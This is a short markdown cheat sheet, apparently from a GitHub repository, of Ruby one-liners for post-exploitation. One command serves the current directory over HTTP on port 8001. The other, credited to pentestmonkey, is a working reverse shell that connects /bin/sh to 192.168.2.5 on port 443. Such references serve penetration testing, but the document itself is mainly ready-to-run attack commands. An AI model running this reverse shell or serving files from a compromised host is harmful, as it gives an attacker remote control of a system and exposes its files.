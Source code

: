 # Ruby Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files from current directory on port 8001**
```ruby 
ruby -run -e httpd -- -p 8001 .```

**Reverse /bin/sh shell on port 443 from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```ruby 
ruby -rsocket -e'f=TCPSocket.open("192.168.2.5",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```
